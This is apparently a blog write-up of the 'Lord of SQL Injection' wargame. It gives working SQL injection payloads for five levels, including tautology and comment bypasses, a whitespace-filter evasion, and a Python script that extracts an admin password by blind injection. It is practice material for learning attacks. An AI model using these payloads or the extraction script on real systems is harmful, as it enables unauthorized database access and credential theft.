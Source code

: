 ```yaml
---
layout: default
---
```


# SQL Injection Exercise 
23-04-2019

Visit [los.eagle-jump.org](https://los.eagle-jump.org) to play along with me. There are multiple possible solutions to each challenge, so you must try them all.

## 1. Gremlin

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/gremlin_1.JPG)


```
https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=a'or 'a'='a&pw=a' or 'a'='a
```

## 2. Cobolt

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/cobolt_2.JPG)


```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=a' or 'a'='a' limit 1,1 -- '&pw=
```

## 3. Goblin

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/goblin_3.JPG)


```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0 or 1=1 and no=2
```

## 4. orc

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/orc_4.JPG)

```py
import requests
import string

cookies = {'PHPSESSID':'<REDACTED>'}

length = 0
while True:
	length += 1
	passLenUrl = "https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=1' or (id='admin' and  length(pw)='" + str(length) + "') %23"
	r = requests.get(passLenUrl,cookies=cookies)
	response = r.text
	if(response.count("Hello") == 2):
		break
print("pw length = " + str(length) + "\n")

pw = ""
for i in range(1,length+1):
	j=""
	for j in string.printable:
		url = "https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=1' or (id='admin' and substring(pw,"+str(i)+",1) = '"+str(j)+"') %23"
		r = requests.get(url,cookies=cookies)
		response = r.text
		if(response.count("Hello") == 2):
			break
	pw += j

print("pw = " + pw)
```

```
https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
```

## 5. Wolfman

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/sqli-images/wolfman_5.JPG)


```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=1'/**/or/**/1=1/**/and/**/id='admin'%23
```